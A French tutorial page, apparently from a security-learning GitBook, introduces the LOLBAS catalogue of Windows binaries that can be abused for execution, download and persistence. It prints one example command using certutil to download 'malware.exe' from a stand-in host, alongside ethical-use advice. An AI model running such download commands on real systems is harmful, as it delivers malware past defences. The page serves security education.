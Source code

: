 # LOLBAS

### **Tuto LOLBAS**

**Introduction**

LOLBAS (Living Off The Land Binaries and Scripts) est un référentiel en ligne qui recense les binaires, scripts, et bibliothèques Windows pouvant être détournés à des fins malveillantes ou pour des tests de sécurité.

### **Accéder à LOLBAS**

* URL : [LOLBAS](https://lolbas-project.github.io)

### **Fonctionnalités principales :**

* **Catalogue des binaires Windows abusables :** Une collection exhaustive de binaires et scripts légitimes intégrés à Windows qui peuvent être détournés.
* **Filtres par type :** Explorer les binaires, scripts, ou bibliothèques par catégories spécifiques.
* **Exemples détaillés :** Chaque binaire est accompagné de techniques exploitables pour des activités comme l'escalade de privilèges, l'exfiltration, ou la persistance.

### **Comment utiliser LOLBAS**

1. **Rechercher un binaire/script :**
   * Accédez à [LOLBAS](https://lolbas-project.github.io).
   * Utilisez la barre de recherche ou parcourez les catégories pour trouver un binaire spécifique (ex. : `certutil`).
2. **Explorer les capacités :**
   * Cliquez sur le binaire pour voir les scénarios exploitables :
     * **Execution** : Utilisation du binaire pour exécuter des commandes arbitraires.
     * **Download** : Exploitation pour télécharger des fichiers à partir de l'Internet.
     * **Persistence** : Techniques pour maintenir l'accès au système.
3. **Exemple avec `certutil` :**
   *   Utilisation de `certutil` pour télécharger un fichier :

       ```cmd
       certutil.exe -urlcache -split -f http://example.com/malware.exe malware.exe
       ```
4. **Tester dans un environnement sécurisé :**
   * Ces techniques doivent être expérimentées dans un environnement contrôlé pour éviter tout impact négatif.

***

### **Bonnes Pratiques pour les Deux Ressources :**

* **Utilisation Éthique :** Ces outils sont conçus pour l'apprentissage et les tests de sécurité éthiques uniquement.
* **Test en Environnement Sécurisé :** Utilisez des machines virtuelles ou des environnements isolés pour tester les scénarios.
* **Mises à Jour Régulières :** Consultez fréquemment ces référentiels, car de nouveaux outils et méthodes y sont régulièrement ajoutés.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
